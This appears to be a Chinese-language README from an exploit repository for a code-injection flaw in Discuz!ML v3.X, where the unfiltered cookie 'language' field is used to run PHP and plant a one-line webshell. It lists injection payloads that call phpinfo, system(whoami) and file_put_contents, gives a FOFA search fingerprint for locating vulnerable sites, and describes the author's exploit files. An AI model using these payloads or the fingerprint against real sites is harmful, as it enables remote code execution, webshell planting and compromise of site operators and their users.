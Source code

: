 漏洞发生的版本为 Discuz 国际版。Discuz!ML v3.X

用户数量不多，所以影响不大 product of codersclub.org

cookie 中 language 字段未添加 过滤所致，可以上传一句话木马

payload

'.phpinfo().'

'.system(dir).'

'.whoami.'

'.system(whoami).'

'.file_put_contents(,).'

fofa 查询特征: ```2009-2019 codersclub.org```


poc.py 为网上公布的监测poc,误报率较高

exp.txt 为 我写的exp

test.php 为我写的exp经一次url解码

test_copy.php 为检测 copy函数的php代码，验证通过



